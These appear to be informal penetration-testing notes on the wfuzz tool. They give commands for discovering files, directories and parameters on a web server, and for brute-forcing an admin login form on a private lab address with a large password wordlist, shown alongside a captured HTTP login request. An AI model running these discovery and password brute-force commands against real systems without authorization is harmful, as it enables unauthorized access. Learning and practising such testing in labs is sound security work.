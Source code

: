 # Wfuzz

export URL="http://zda:80/FUZZ"


File Discovery

```console
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"
```

Directory Discovery

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 403,404 "$URL" 
```

Parameter Discovery - check for files on the webserver that can be used maliciously

```console
export URL="http://zda:80/index.php?FUZZ=data"
```

fuzzing parameter values on a target web app
fuzzing the "fpv" parameter with a common wordlist 


wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://zda:80/index.php?fpv=FUZZ


Fuzz the password in Burp


POST /goform/formLogin HTTP/1.1
Host: 192.168.233.45
Content-Length: 64
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.233.45
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.233.45/index.asp
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

HtmlOnly=true&Login=admin&Password=dawg&loginButton=Submit+Login


RUn this command

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=dawg" http://192.168.233.45/index.asp

you can restrict file size of th erequest to remove erronious responses wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=FUZZ" --hh 229 http://192.168.233.45:80/goform/formLogin

https://www.phrack.me/tools/2022/07/06/Ffuf-cheatsheet.html

